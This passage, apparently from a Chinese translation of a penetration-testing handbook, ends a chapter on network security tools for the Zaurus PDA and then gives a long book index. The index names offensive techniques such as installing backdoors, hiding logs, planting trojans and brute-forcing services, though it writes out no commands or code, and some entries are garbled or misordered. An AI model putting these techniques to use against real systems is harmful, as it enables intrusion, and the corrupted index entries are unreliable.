ZEthereal 是流行的 GUI 网络分析器 Ethereal 的移植版。ZEthereal 的二进制文件和截图可从 `http://www.cartel-info.fr/pbiondi/zaurus/zethereal.html` 获取。关于 Ethereal 的详细信息和文档可以在 `http://www.ethereal.com/` 找到。

## ZNESSUS

zNessus 工具是 Nessus GUI 客户端的 Zaurus 移植版。截图和二进制文件可在 `http://znessus.sourceforge.net/` 获取。zNessus 可用于从 Nessus 服务器远程配置并启动漏洞检查。有关 Nessus 扫描器的更多信息，请参阅第 4 章和第 11 章。

> zNessus 客户端要求 Nessus 服务器配置为支持未加密通信（默认情况下禁用）。如果您决定在 Nessus 服务器上禁用加密，请务必拦截所有进入 Nessus 端口（默认 1241）的流量。请使用 OpenSSH 客户端连接到您的 Nessus 服务器主机，以便安全地隧道传输 zNessus 流量。

## MTR

MTR（Matt’s TraceRoute，如下图所示）是一个将 `ping` 和 `traceroute` 程序的功能合并到单个程序中的工具。（有关 `ping` 和 `traceroute` 的更多信息，请参阅第 2 章。）Zaurus MTR 移植版的二进制软件包可从 http://psiftertex.com/zaurus/mtr_0.51_arm.ipk 下载。



## DIG

`dig` 工具可用于查询 DNS 服务器，以获取 MX 记录和服务器版本信息等信息，并执行其他 DNS 查询。Zaurus 版 Dig 可在 http://killefiz.de/zaurus/showdetail.php?app=362 获取。

## PERL

许多安全工具（如 Nikto 和 Whisker Web 漏洞扫描器）是使用 Perl 语言编写的。由于 Perl 是一种解释型语言，因此无需编译现有的 Perl 脚本即可在 Zaurus 上运行。Zaurus 版 Perl 可在 `http://zaurus.frontgarden.net/perl.html` 获取。

## ZAURUS 在线资源

Zaurus PDA 在 Linux 社区中赢得了极大的关注。除了本章讨论的工具外，每天都有新的工具被创建和移植。下表中的资源提供了软件资源的链接以及常见问题解答（FAQ）和社区论坛。

| 描述 | URL |
|---|---|
| Zaurus 软件索引 | http://killefiz.de/zaurus/ |
| Zaurus DevNet 论坛 | http://www.zaurus.com/dev/board/ |
| Zaurus Zone | http://www.zauruszone.com/ |
| Sharp 开发者 | http://www.zaurus.com/dev/ |
| 非官方 Sharp Zaurus SL-5500 FAQ | http://www.newbreedsoftware.com/zaurus-faq/ |
| ZaurusSoft 软件数据库 | http://www.zaurusoft.com/ |
| OpenZaurus 替代 ROM | http://openzaurus.org/ |

## 总结

在本章中，您了解了可以在 Zaurus PDA 上使用的各种安全工具。现在 Zaurus 已经拥有可执行无线网络发现、网络嗅探和扫描的工具。此外，Perl 等脚本语言已被移植到 Zaurus，允许用户运行使用 Perl 语言构建的安全工具。如此庞大的安全工具库加上 Linux 操作系统的灵活性，使得 Zaurus PDA 成为一个强大的工具，可用于对目标网络执行攻击和渗透任务。


## 索引

### 符号与数字

- PATH 环境变量中的 ""
    - 利用其植入植特洛伊木马，114–115
    - 为增强主机安全性而将其删除，132
- #（井号），用于通过 inetd 禁用 FTP，134
- 0，将本地账户 uid 更改为，123–124
- 127.0.0.1（回环接口），其上的不受限流量，112

### A

- 账户，在不必要时将其删除或禁用，132
- ACK 扫描，使用 Nmap 执行，30
- 管理缺陷
    - 通过搜索招聘广告查找，4
    - 通过搜索 Usenet 存档查找，7–8
- Adore rootkit，下载，127
- Airsnort 无线黑客工具，使用，171, 172
- Amap，通过其识别远程服务，36, 63
- 天线，为无线活动选择天线，171
- Apache (HTTP 和 HTTPS)，
    - 安全加固，139
- Apache，块处理（chunk handling）漏洞，85
- APNIC（亚太网络信息中心），其网站地址，12
- 应用程序漏洞
    - BitchX 远程堆损坏，104
    - tcpdump 中畸形 NFS 和 BGP 数据包导致缓冲区溢出，103
    - Netscape/Mozilla POP3 邮件处理程序整数溢出漏洞，103–104
    - PGP4Pine 长消息行缓冲区溢出，104
        - 防止其被利用，104
- ARIN（美国网络注册机构），其网站地址，12
- ARP 欺骗，原理解释，59–60
- ASCII（美国标准信息交换代码）表，RC 22–RC 27
- 攻击
    - 反弹攻击（bounce attacks），65
    - 暴力破解攻击，58–59
    - DOS（拒绝服务）攻击，149–150
    - 中间人攻击，60–61
    - 针对 Web 代理的攻击，102–103
    - 审计，121
- SSH 中的 authorized_keys，利用，125
- 自动索引，其漏洞，80–81

### B

- 后门
    - 使用 Loki2 安装，125–126
    - 后门的使用，122–126
- Banner 抓取
    - 自动化抓取，54–56
    - 原理解释，36
- .bash_history 文件，检查其内容，120–121
- tcpdump 中的 BGP 和 NFS 数据包缓冲区漏洞，出现情况，103
- bin 和 sys 拥有的文件，146
- /bin 文件，分配适当的权限，147
- /bin/ls 二进制文件，被替换为特洛伊木马，126
- 二进制文件，检测其被修改的情况，127
- BIND (Berkeley Internet Name Domain)
    - 配置以禁止显示版本信息，42
    - 安全加固，138–139
    - 其漏洞，75
- BIND 版本信息，从 DNS（TCP/UDP 端口 53）获取，41–42
- Bing，与 Zaurus PDA 配合使用，180
- BitchX 远程堆损坏漏洞，出现情况，104
- 反弹攻击，出现情况，65
- 暴力破解攻击
    - 防御措施，59
    - 运行机制，58
    - 针对 FTP 账户，63–64
    - 针对 TCP 端口 80 上的 HTTP (超文本传输协议)，77
    - 针对 TCP 端口 143 上的 IMAP2/IMAP4，92
    - TCP 端口 3306 上的 MySQL，95–96
    - 针对 NNTP (网络新闻传输协议)，89
    - 针对 TCP 端口 109 上的 POP2 (邮局协议 2)，85
    - 针对 TCP 端口 110 上的 POP3 (邮局协议 3)，86
    - 针对 Samba，90
    - 针对 SSH (安全外壳)，67–68
    - 针对 VNC (虚拟网络计算)，97–98
- BSM (基础安全模块)，启用以用于日志文件，154
- 缓冲区溢出
    - 成因，61
    - 出现情况，116
    - 在 OpenSSL 中，93
    - 在 RPC 服务中，88

### C

- CDE Tooltalk，其漏洞，117
- Chkrootkit，其网站地址，127
- chmod 命令，使用其更改文件权限，144
- CIDR (无类别域间路由) 地址，检测，RN 12。另见 IP 地址
- A-E 类 IP 地址，原理解释，RC 9–RC 11
- 命令历史记录日志，禁用，121
- 命令，特洛伊木马化，126
- 公司前缀，通过其查询 RIR 记录，13
- 配置文件，搜索敏感信息，7
- 连接窃取，出现情况，66
- Cookie，在会话劫持中的作用，83
- 核心转储 (core dumps)，其漏洞，117–118
- 破解 /etc/shadow 文件，109–110
- cron 守护进程，示例，155

### D

- 数据资源，搜索，7
- dead.letter 文件，搜索其内容，5
- desproxy 命令，与 Web 代理配合使用，102
- /dev 目录，适当的文件权限，149
- df 命令，使用其检查 /var 目录的可用空间，157
- dig 工具，与 Zaurus PDA 配合使用，185
- 定向天线，用于无线活动，171
- 磁盘分区，保护，149–150
- DNS (域名系统) TCP/UDP 端口 53
    - 欺骗，74
    - 使用，41–42
    - 其漏洞，74
- DNS 反向查询
    - 执行，14–15
    - 防止因反向查询导致的信息泄露，15
- DNSSEC (DNS 安全)，使用，74–75
- dnsspoof 程序，使用其欺骗 DNS 响应，74
- 域名，通过域名查询注册商记录，9–10
- 域前缀，通过域前缀查询注册商记录，10–11
- 域名注册商记录
    - 防止信息泄露，11
    - 通过域名查询，9–10
    - 通过域前缀查询，10–11
    - 通过电子邮件查询，11
    - 通过 handle 查询，11
- 域名注册商，使用，8–9
- DOS (拒绝服务) 攻击，针对可用磁盘空间发起，149–150

### E

- 电子邮件
    - 加密，73
    - 通过电子邮件查询域名注册商记录，11
    - 通过电子邮件查询 RIR 记录，14
- echo 命令，使用其打印当前用户的 PATH 变量，132
- EDGAR (电子数据采集、分析与检索)，搜索，4
- 枚举远程服务，36—54
- ESSID (扩展服务集标识符)，更改以禁用广播，174—175
- /etc 文件
    - 分配适当的权限，147—148
    - 保护，113
- /etc/hosts.equiv，检查其内容，133
- /etc/passwd，审计其中的 uid 和 gid 设置，124
- /etc/shadow 文件
    - 破解，109—110
    - 其漏洞，117—118
- Ettercap ARP 欺骗工具
    - 使用其嗅探并破解 VNC 密码，98—99
    - 使用其嗅探 FTP 认证，64—65
    - 使用其嗅探 POP3 密码，86—87
    - 与 SSH 配合使用，68
    - 其网站地址，60
- EXPN 命令
    - 通过其枚举用户，40—41
    - 在 Sendmail 中关闭，137
- 信息泄露，见防止信息泄露

### F

- Fata-Jack 无线黑客工具，使用，173—174
- 文件权限
    - 为重要文件分配权限，147—149
    - 磁盘分区，149—150
    - 确保重要文件的权限正确，RC 30—RC 32
    - /dev 中的文件，149
    - bin 和 sys 拥有的文件，146
    - 实现 wheel 组，150
    - setuid 和 setgid 文件，150
        - Sudo，151
        - 教程，144—145
    - unmask 值，146—147
- 全球可读文件 (world-readable files)，145
- 全球可写文件 (world-writable files)，146
- FIN 扫描，使用 Nmap 执行，27
- find 命令
    - 使用其检查 sys 拥有的文件，146
    - 使用其搜索全球可读文件，145
    - 使用其搜索全球可写文件，146
- TCP 端口 79 上的 Finger 程序，使用，42—43
- 指纹识别 (fingerprinting)，使用，32—34
-  footprinting (足迹采集)，原理解释，4
- FTP 账户，暴力破解，64, 68—69
- FTP 认证，嗅探，64—65
- FTP 反弹攻击，出现情况，65
- FTP 反弹扫描，使用 Nmap 执行，26
- TCP 端口 21 上的 FTP (文件传输协议)
    - 及连接窃取，66
    - 通过 inetd 禁用，134
    - 使用，37—38
    - 其漏洞，63
- FTP 端口，通过 telnet 客户端连接，67
- FTP 服务器 Banner
    - 更改，38
    - 获取，37

### G

- GNU Privacy Guard，其网站地址，73
- 组权限与错误的文件权限，利用，112—114
- 组拥有的文件，查找，112—113

### H

- 黑客工具，其网站地址，RC 15—RC 17
- handles
    - 通过 handle 查询域名注册商记录，11
    - 通过 handle 查询 RIR 记录，13—14
- 隐藏的 HTML 元素，其漏洞，84
- 隐藏
    - 隐藏后门，122—123
    - 隐藏将本地账户 uid 更改为 0 的操作，123—124
    - 隐藏并清理日志，120—122
    - 隐藏 .rhosts 文件，124
    - 隐藏由 root 拥有的 setuid /setgid shell，123
- 劫持 telnet 会话，出现情况，69–70
- host 命令，使用其执行区域传输 (zone transfers)，16–18
- 主机配置，审计与加固，61
- 主机加固
    - Apache (HTTP 和 HTTPS)，139–140
    - BIND (DNS)，138–139
    - 检查 /etc/hosts.equiv 的内容，133
    - 检查 .rhosts 文件，133
    - 禁用栈执行 (stack execution)，133
    - inetd 和 xinetd 配置，134–135
    - NFS (网络文件系统)，141
    - 远程服务的加固，135
    - 删除/禁用不必要的账户，132
    - Samba，140–141
    - Sendmail，136–138
    - 设置密码策略，132
    - SSH (安全外壳) TCP 端口 22，136
    - 使用 TCP Wrappers，133–134
    - WU-FTPD，135–138
- 主机 ping 测试，23
- Hping2，与 Zaurus PDA 配合使用，181
- HTTP 认证
    - 暴力破解，77
    - 嗅探，80
- HTTP 状态码表，RC 28–RC 29
- HTTP 数据，嗅探，78–79
- TCP 端口 80 上的 HTTP (超文本传输协议)
    - 安全加固，139–140
    - 与 HTTPS 的对比，80
    - 及会话劫持，83–84
    - 使用，43–45
    - 其漏洞，77, 92–94
- HTTP 请求，使用 urlsnarf 程序嗅探，77–78
- HTTP 服务器 Banner，获取与更改，43–45
- HTTP 服务器
    - 使用 openssl 连接，93
    - 配置错误，81
- HTTP 流量，配合 Web 代理使用，102–103
- TCP 端口 443 上的 HTTPS (安全超文本传输协议)
    - 安全加固，139–140
    - 与 HTTP 的对比，80
    - 使用，51–52
- HTTPS 服务器 Banner，获取与更改，52
- HTTPS 流量，配合 Web 代理使用，102–103
- Hydra 暴力破解工具，其网站地址，58
- ICMP 回显请求，在 ping 扫描过程中将其拦截，24
- ident (身份识别协议) 服务器，扫描，28
- IMAP 暴力破解，防止，92
- IMAP 服务器 Banner，抓取与更改，49–50
- IMAP 流量，嗅探，92
- TCP 端口 143 上的 IMAP2 / IMAP4 (互联网消息访问协议 2/4)
    - 暴力破解，92
    - 使用，49–50
    - 其漏洞，92
- TCP 端口 993 上的 IMAPS (安全互联网消息访问协议)
    - 使用，52–53
    - 配合 SSL 使用，94–95
- IMAPS 服务器 Banner，抓取与更改，53
- IMAP 服务器，配合 openssl 工具使用，95
- httpd.conf 中的 Indexignore 指令，使用，139
- inetd
    - 作为远程 shell 使用，122–123
    - 以及 xinetd 的加固，134–135
- 输入验证漏洞，利用与防止，82–83, 116
- 远程服务的入侵策略，概述，58–62
- IP 地址。另见 CIDR (无类别域间路由) 地址
    - 分类，RC 9–RC 11
    - 点分十进制表示法，RC 9
    - 长度，RC 9
    - 以及回环范围，RC 12
    - 通过 IP 地址查询 RIR 记录，13
    - 使用的子网掩码，RC 11
- 为私有内网保留的 IP 块列表，RC 12
- IP (互联网协议) 报头，格式，RC 12–RC 13
- IP 协议扫描，使用 Nmap 执行，30


## J

- 招聘公告，搜索管理漏洞，4
- John the Ripper，利用其破解 /etc/shadow 文件，109–110

## K

- 内核缺陷，软件漏洞，115–116
- Keypeptide VNC 查看器，在 Zaurus PDA 上使用，183
- Kismet 无线黑客工具，使用，173, 178
- Knark rootkit，下载，127
- KSA（密钥调度算法），配合 Airsnort 使用，171

## L

- LACNIC（拉丁美洲和加勒比海互联网地址注册机构），其网站地址，12
- Linux 发行版
    - 其中使用的命令，RC 2–RC 6
    - 在其中定位日志文件，154
    - 获取补丁，155
- Linux 文件权限，数字形式表示，144
- Linux 服务，所使用的端口，RC 7–RC 8 本地信任，利用，112
- 日志文件
    - 在 Unix 和 Linux 中定位，154
    - 搜索，5–6
    - /var/adm/loginlog, 155
    - /var/adm/sulog, 155
    - /var/audit, 154–155
    - 在 /var 目录中，121
    - /var/log/cron, 155
    - /var/log/maillog 文件, 155
    - /var/log/messages, 156
    - /var/log/secure, 156
    - /var/log/wtmp, 156
    - /var/run/utmp, 156
- 日志轮转，启用，156–157
- 日志记录，启用，121, 154–157
- 日志机制，禁用与清理，120–122
- Loki2 工具，利用其安装后门，125–126
- 回环接口 (127.0.0.1)，不受限的流量，112
- 回环范围，在 IP 寻址中的角色，RC 12
- LRK (Linux Rootkit)，下载，127
- ls -l 标志，利用其检查文件权限，144

## M

- MAC 地址过滤，利用其漏洞，175
- mailsnarf 程序，利用其嗅探 SMTP 流量，72
- 中间人攻击
    - 动态机制，60–61
    - 针对 SSH (Secure Shell) 的攻击，68
- mssql.php.script 示例，96
- MTR (Matt's TraceRoute)，在 Zaurus PDA 上使用，185
- 域名中的 MX (邮件交换) 记录，查询，15–16
- TCP 端口 3306 上的 MySQL
    - 封锁与加固，97
    - 使用，53–54
- MySQL 流量，嗅探，96–97
- MySQL 版本信息，枚举，54–55

## N

- NASL (Nessus 攻击脚本语言) 特性，162
    - 使用其编写 Nessus 插件，162–167
- NASL 脚本，从命令行运行，162
- Nessus 插件，使用 NASL 编写，162–167
- Nessus 安全扫描器
    - 下载，162
    - 使用，104–105
- Netcat
    - 利用其获取远程 shell，106–107
    - 利用其执行自动化 Banner 抓取，54–56
- Netcat 命令列表，RC 20–RC 21
- Netstat，利用其加固远程服务，135
- 网络块，通过 RIR 记录查询，13
- tcpdump 中 NFS 和 BGP 数据包缓冲区漏洞，出现情况，103
- NFS (网络文件系统)，加固，141
- NFS 共享，查询远程主机，87–88

### Nmap 扫描工具

- ACK 扫描，30
- 特性，22
- FIN 扫描，27
- FTP 反弹扫描，26
- IP 协议扫描，30
- NULL 扫描，29
- 操作系统指纹识别，34
- Ping 扫描 (Ping Sweeping)，23
- 反向 ident 扫描，28
- RPC (远程过程调用) 扫描，29–30
- 源端口扫描，27
- SYN 扫描，26
- TCP-connect 端口扫描，25
- TCP Ping，24
- UDP 端口扫描，31
- 在 Zaurus PDA 上使用，179
- 窗口扫描，31
- XMAS 扫描，28

- NNT 认证数据，嗅探，89

### NNTP (网络新闻传输协议)

- 在 TCP 端口 119 上
    - 暴力破解，89
    - 通过 SSH 隧道传输，89
    - 使用，47–48
- NNTP 服务器 Banner，获取与修改，47–48
- NNTPS Banner，抓取与修改，52

### NNTPS (安全网络新闻传输协议)

- 在 TCP 端口 563 上
    - 使用，52
    - 配合 openssl 使用，94

- 非标准端口，识别运行在其中的远程服务，63。另见 TCP ports; UDP ports
- npasswd 工具，下载，59, 110
- NULL 扫描，利用 Nmap 执行，29
- 操作系统，利用 Xprobe2 进行指纹识别，32–34

## P

- 密码策略，为主机加固而设置，132
- 补丁，获取 Linux 和 Unix 补丁，155

### PATH 环境变量

- 利用其植入特洛伊木马，114–115
- 从中移除 ""，132

- Zaurus PDA 适用 Perl，下载，185

### PPtine

- 长消息行缓冲区溢出，其漏洞，104

- PHP 新闻应用程序，其漏洞，82–83
- ping 命令，示例，23
- Ping 扫描，利用 Nmap 执行，23
- Ping，通过该手段确定主机存活状态，23。另见 TCP pinging

### POP2 (邮局协议 2)

- 在 TCP 端口 109 上，暴力破解与嗅探，85
- POP2 流量，嗅探，85
- POP3 密码，嗅探，86–87

### POP3 (邮局协议 3)

- 在 TCP 端口 110 上
    - 暴力破解，86
    - 使用，45
- POP3 服务器 Banner，修改，45

### POP3S (安全邮局协议 3)

- 在 TCP 端口 995 上
    - 使用，53
    - 配合 SSL 使用，95
- POP3S 服务器 Banner，抓取与修改，53

- PORT 命令，在反弹攻击中的角色，65
- 端口重定向，技术，107–109

### 端口扫描

- 防御，31–32
- 反向 ident，28
- TCP connect，25
- TCP SYN/半开放，26–27
- 使用，25

### TCP 端口 111 上的 Portmapper

- 禁用，47
- 配置错误，87
- 查询 RPC 服务，46–47
- 使用，45–47

- 端口。另见 nonstandard ports; TCP ports; UDP ports
- Linux 和 Unix 服务中使用的端口表，RC 7–RC 8

## O

- 全向天线，用于无线活动，171
- OpenSSH，在 Zaurus PDA 上使用，180–181

### openssl 工具

- 连接到 HTTPS 服务器，93
- 配合 IMAPS 服务器使用，95

- 井号 (#)，用于禁用 ined 上的 FTP，134

- 防止暴露
    - 应用程序漏洞，104
    - 反弹攻击，65
    - 暴力破解攻击，59
    - DNS 反向查询，15
    - 因域名注册商记录导致，11
    - 因端口扫描导致，31–32
    - 因 RIR 记录导致，14
    - 因 traceroute 请求导致，19
    - 因区域传输导致，18
    - FTP 暴力破解，64
    - IMAP 暴力破解，92
    - 中间人攻击，61
    - 搜索引擎，8
    - 软件漏洞，61
    - SSH 暴力破解，67–68

- 权限提升
    - 原理说明，112
    - 用户组权限和错误的文件权限，112–114
    - 及配置错误，118

- ProFTPD，其网站地址，67
- 受保护的数据资源，搜索，7
- ptrace 漏洞利用，出现情况，115–116
- 识别运行在非标准端口上的服务，63
    - TCP 端口 137 至 139 上的 Samba，90–91
    - 会话劫持，83–84
    - SMTP (简单邮件传输协议) TCP 端口 25，72
    - 嗅探 FTP 认证，64–65
    - 嗅探 POP2 流量，85–86
    - 源代码注释，64–85
    - SSH (Secure Shell) TCP 端口 22，67–68
    - telnet，68–72
    - UDP 端口 69 上的 TFTP (简单文件传输协议)，75–76
    - 以及安全协议的使用，65
    - TCP 端口 5800+ 和 5900+ 上的 VNC (虚拟网络计算)，97–100

- 远程服务
    - 封锁与停止，37
    - 枚举，36–54
    - 加固，135
    - 使用 Amap 识别，36
    - 针对远程服务的入侵策略，58–62

- 防止安装远程 shell 服务，123

- 远程 shell
    - 为配合后门使用而安装，122–123
    - 获取，105–107
    - 防止攻击者获取，107

- 反向 ident 扫描，利用 Nmap 执行，28
- 反向代理攻击，出现情况，103
- TCP 端口 512 上的 rexec 命令，在远程主机上使用，93

- RFCs (请求注释)
    - 768 (UDP 头部)，RC 14
    - 791 (IP 头部)，RC 12
    - 793 (TCP 头部)，RC 13

- .rhosts 文件
    - 使用 SSH 审计，124
    - 检查是否存在，133
    - 利用，124

- .rhosts 配置错误，出现情况，93–94
- RIPE NCC (欧洲 IP 网络协调中心)，其网站地址，12

- RIR 记录
    - 防止因其导致的暴露，14
    - 按公司前缀查询，12
    - 按电子邮件查询，14

## Q

- Openmappe，在 Zaurus PDA 上使用，179–180

## R

- r (读) 权限，示例，144–145

- 远程服务漏洞
    - 封锁并停止不必要的服务，63
    - 反弹攻击，65
    - POP3 暴力破解，86
    - 连接窃取，66–67
    - DNS (域名系统) TCP/UDP 端口 53，74
    - 电子邮件加密，73
    - TCP 端口 21 上的 FTP (文件传输协议)，63
    - 隐藏的 HTML 元素，84
    - 获取源代码、配置统计和密码资源，81
    - TCP 端口 111 上的 Portmapper，87
    - 查询 NFS 共享，87–88


- 通过句柄查询，13–14
- 通过 IP 地址或网络块查询，13
- RIR（区域互联网注册机构），其使用，12
- TCP 端口 513 上的 rlogin 命令，与远程主机一起使用，93–94
- root 访问权限，通过滥用 .rhosts 文件确保，124
- /root 文件，为其分配适当的权限，148
- root 权限
    - 获取，123–124
    - 使用 Sudo 免费软件配合使用，151
- root shell，访问，122–123
- rootkit
    - 检测，127
    - 使用，126–127
- RPC（远程过程调用）扫描，使用 Nmap 执行，29–30
- RPC 服务
    - 通过 Portmapper 查询，46–47
    - 软件漏洞，48–89
- TCP 端口 514 上的 rsh 命令，与远程机器一起使用，94
- RST 数据包，在 FIN 扫描中的作用，27
- runlpr 工具，其漏洞，116

## S

- TCP 端口 137 到 139 上的 Samba
    - 暴力破解，20
    - 加固，140–141
    - 配置错误，91
    - 使用，48–49
    - 漏洞，90–91
- Samba 密码哈希，获取，90
- Samba 服务器信息，枚举，48
- Samba 服务器，更改其字符串和版本号信息，49
- Samba 流量，拦截与隧道传输，91
- Samhain，利用其检测被修改的二进制文件，127
- /sbin 文件，为其分配适当的权限，148
- 搜索引擎
    - 防御其漏洞，8
    - 使用，4
- 搜索
    - 在配置文件中搜索敏感信息，7
    - EDGAR，4
    - 在招聘信息中搜索管理弱点，4
    - 日志文件信息，5–6
    - 受保护的数据资源，7
    - 在 Usenet 存档中搜索管理缺陷，7–8
    - Web 服务器统计信息，6–7
- 安全协议，使用，65
- 安全会议，其 Web 地址，RC 19
- 安全邮件列表，其 Web 地址，RC 19
- 安全新闻，其 Web 资源，RC 18
- 安全资源，其 Web 地址，RC 15
- Sendmail
    - 加固，136–138
    - 漏洞，73
    - sendmail rc 文件，关于对其进行更改的建议，138
- 会话劫持，其易感性，83–84
- setgid 和 setuid 文件，查找，150
- setuid 权限，添加，144
- root 拥有的 setuid/setgid shell，漏洞利用，123
- Sharp Zaurus PDA（个人数字助理）。参见 Zaurus PDAs (personal digital assistants)
- shell 历史记录，在清理日志中的作用，120–121
- shell，获取，105–107
- showmount 程序，通过其查询远程主机的 NFS 共享，87–88
- SMB (Server Message Block)，在 Samba 中的作用，90
- Smbmount，与 Zaurus PDA 配合使用，183
- smrsh MDA（邮件投递代理），在加固 Sendmail 时启用，137
- SMTP 服务器横幅，抓取与更改，40
- TCP 端口 25 上的 SMTP（简单邮件传输协议）
    - 嗅探其流量，72
    - 使用，39–41
- SMTP 流量，嗅探，72
- 嗅探对策，60
- 嗅探，其动态机制，59–60
- UDP 端口 161–162 上的 SNMP（简单网络管理协议），枚举及防止枚举，50–51
- 软件漏洞
    - BIND (Berkeley Internet Name Domain) 的漏洞，75
    - 核心转储 (core dumps)，117–118
    - 防御漏洞利用，61
    - 示例，61
    - 内核缺陷，115–116
    - 本地缓冲区溢出，116
    - OpenSSL 的漏洞，93
    - RPC 服务的漏洞，88–89
    - Sendmail 的漏洞，73
    - 符号链接，117
    - telnet 的漏洞，71–72
    - 对盗窃攻击的易感性，66
    - VNC (Virtual Network Computing) 的漏洞，99–100
- Solaris FTP 核心转储 showfile 侧面恢复漏洞，其出现，117–118
- 源代码注释，其漏洞，84–85
- 源端口扫描，使用 Nmap 执行，27
- TCP 端口 22 上的 SSH (Secure Shell)
    - 其中的 authorized_keys，125
    - 暴力破解，67–68
    - 加固，136
    - 通过其防止 root 登录，125
    - 与 rlogin 的对比，94
    - 与 telnet 的对比，70–72
    - 通过其构建 NNTP 隧道，89
    - 通过其构建 POP2 流量隧道，85
    - 使用其安全地构建 VNC 流量隧道，99–100
    - 使用，38
    - 与 .rhosts 文件配合使用，124
- SSH 服务器横幅，获取，38
- SSH 服务器，通过 authorized_keys 访问，125
- SSH 版本信息，更改，38
- sshmitm 工具，与 SSH 配合使用，68
- SSL (Secure Sockets Layer)
    - 与 NNTP 配合使用，94
    - 与 POP3S 配合使用，95
- 栈执行，在主机加固中禁用，133
- 统计信息，在 Web 服务器上搜索，6–7
- 强密码
    - 益处，59
    - 确保，110
- su 命令，通过其登录用户账户，155
- IP 地址中的子网掩码，示例，RC 11
- Sudo 免费软件，通过其以 root 权限执行命令，151
- 符号链接，其漏洞，117
- SYN 扫描，使用 Nmap 执行，26
- sys 和 bin，其拥有的文件，146
- 系统审计与日志记录，启用，121

## T

- tail 命令，通过其检查执行的命令，120–121
- TCP 连接端口扫描，其过程，25
- TCP 劫持，其出现，69
- TCP ping 扫描，防止，24
- TCP pinging，使用 Nmap 执行，24。另见 pinging
- TCP 端口号，范围，25
- TCP 端口。另见 nonstandard ports; UDP ports

| 端口 | 服务 | 页码 |
| :--- | :--- | :--- |
| 21 | FTP | 37–38, 63 |
| 22 | SSH | 37–38, 67 |
| 23 | telnet | 38–39, 68 |
| 25 | SMTP | 39–41, 72 |
| 53 | DNS | 41–42, 74 |
| 79 | Finger | 42–43 |
| 80 | HTTP | 43–45, 77 |
| 109 | POP2 | 85 |
| 110 | POP3 | 85 |
| 111 | Portmapper | 45–47, 87 |
| 119 | NNTP | 47–48, 89 |
| 137-139 | Samba | 48–49, 90–91 |
| 143 | IMAP2/IMAP4 | 49–50, 91 |
| 512 | resex 命令 | 93 |
| 513 | rlogin 命令 | 93 |
| 514 | sys 命令 | 94 |
| 563 | NNTPS | 52, 94, 95 |
| 993 | IMAPS | 52–53, 94–95 |
| 995 | POP3S | 53 |
| 3306 | MySQL | 53–54 |
| 5800+ / 5900+ | VNC | 97–100 |
| 6000–6063 | X window 系统 | 100–102 |
| 8000+ | Web 代理 | 102–103 |

- TCP SYN/半开放端口扫描，使用，26–27
- TCP (Transmission Control Protocol) 报头，格式，RC 13
- TCP wrappers，用于主机加固，133–134
- tcpdump 网络分析仪
    - 其中的畸形 NFS 和 BGP 数据包缓冲区漏洞，103
    - 与 Zaurus PDA 配合使用，183–184
- telnet 认证，嗅探，70–71
- telnet 客户端，通过其连接到 FTP 端口，37, 38
- TCP 端口 23 上的 telnet
    - 暴力破解，68–69
    - 使用，38–39
- telnet 服务器横幅
    - 更改，39
    - 获取，39
- telnet 会话，劫持，69–70
- telnet 与 SSH (Secure Shell) 的对比，70–72
- TFTP 数据，嗅探，75–76
- TFTP 根目录，设置，76
- UDP 端口 69 上的 TFTP (Trivial File Transfer Protocol)，其漏洞，75–76
- /tmp 文件，为其分配适当的权限，148
- Tornkit rootkit，下载，127
- traceroute 请求，防止接收，19
- traceroutes，执行，18–19
- Tripwire，利用其检测被修改的二进制文件，127
- Trojans（特洛伊木马）
    - 示例，126–127
    - 在 PATH 环境变量的 “.” 中植入，114–115
- TTL (Time to Live) 值，在执行 traceroutes 中的作用，18–19

## U

- UDP 报头，格式，RC 14
- UDP 端口号，范围，25
- UDP 端口扫描，使用 Nmap 执行，31
- UDP 端口。另见 nonstandard ports; TCP ports
    - 53 (DNS), 41–42, 74
    - 69 (TFTP), 75–76
    - 137 to 139 (Samba), 48–49
    - 161-162 (SNMP), 50–51
- uid，更改为 0，123–124
- Unix 发行版
    - 其中使用的命令，RC 2–RC 6
    - 其中日志文件的位置，154
    - 获取其补丁，155
- Unix 文件权限，用数字形式表示，144
- Unix 服务，其中使用的端口，RC 7–RC 8
- unmask 值，查找当前用户的值，146–147
- urlsnarf 程序，通过其嗅探 URL，77–78
- /usr 文件，为其分配适当的权限，148
- /var/adm/loginlog 文件，其内容，155

## V

- 虚拟机，在其中测试漏洞利用，62
- VNC 密码，嗅探与破解，98–99
- VNC 服务器，与 Zaurus PDA 配合使用，182
- VNC 流量，通过 SSH 安全地构建隧道，99–100
- TCP 端口 5800+ 和 5900+ 上的 VNC (Virtual Network Computing)
    - 配置错误，99
    - 漏洞，97–100
- vncrack 工具，其 Web 地址，97
- VRFY 命令
    - 通过其枚举用户，40–41
    - 为 Sendmail 的使用而将其关闭，137
- 漏洞
    - 应用程序的漏洞，103–104
    - Netscape/Mozilla POP3 邮件处理程序的整数溢出漏洞，103–104
    - 搜索引擎的漏洞，4–8
    - whois 查询的漏洞，9

## W

- w (write) 权限，示例，144
- Web 应用程序，其漏洞，82–83, 162
- TCP 端口 8000+ 上的 Web 代理
    - 配置错误，102–103
    - 漏洞，102–103
- 安全新闻的 Web 资源，列表，RC 18
- Web 服务器
    - 针对敏感文件的配置，81–82
- /var/adm/sulog 文件，其内容，155
- /var/audit 日志文件，其内容，154–155
- /var 目录
    - 检查其中的剩余空间，157
    - 清理，121–122
- /var 文件，为其分配适当的权限，148–149
- /var/log/cron 文件，其内容，155
- /var/log/maillog 文件，其内容，155
- /var/log/messages 文件，其内容，156
- /var/log/secure 文件，其内容，156
- /var/log/wtmp 文件，其内容，156
- /var/run/utmp 文件，其内容，156

搜索统计，6–7
源代码注释漏洞，85

- 网站
    - Adore rootkit，127
    - Airsnort，171–172
    - Amp，36, 63
    - 无线活动天线，171
    - Apache 对块处理的漏洞，85
    - APNIC (亚太网络信息中心)，12
    - ARIN (美国网络注册信息网络)，12
    - 在 chrooted 环境中运行的 BIND，138
    - Bing，180
    - CDE Tooltalk 漏洞，117
    - Chkrootkit，127
    - Zaurus 的 dig 工具，185
    - DNSSEC (DNS 安全)，74–75
    - EDGAR，4
    - Ettercap ARP 欺骗工具，60
    - /var/audit 文件的事件日志记录，155
    - Finger 漏洞，43
